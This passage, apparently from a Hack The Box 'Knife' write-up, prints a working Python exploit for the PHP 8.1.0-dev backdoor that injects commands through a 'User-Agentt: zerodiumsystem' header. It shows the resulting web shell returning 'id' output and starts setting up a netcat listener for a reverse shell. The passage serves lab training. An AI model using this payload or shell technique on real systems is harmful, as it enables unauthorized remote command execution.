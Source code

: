 ```
response = request.get(host)

if str(response) == '<Response \[200\]>':
    print("\\nInteractive shell is opened on", host, "\\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86\_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow\_redirects = False)
            current\_page = response.text
            stdout = current\_page.split('<!DOCTYPE html>',1)
            text = print(stdout\[0\])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

We're now all set to exploit.

## Exploitation

```
~/Documents/htb/knife » python3 phpDev.py                                                   1 ↵ connor@kali
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$
```

After running the exploit, we spawn a web shell. This is a very good start, but before we do anything we want to upgrade it to a full reverse shell. This is a multi-step process.

1. Set up a nc listener:

```
~/Documents/htb/knife » nc -lvp 4321                                                        1 ↵ connor@kali                
listening on \[any\] 4321 ...
```
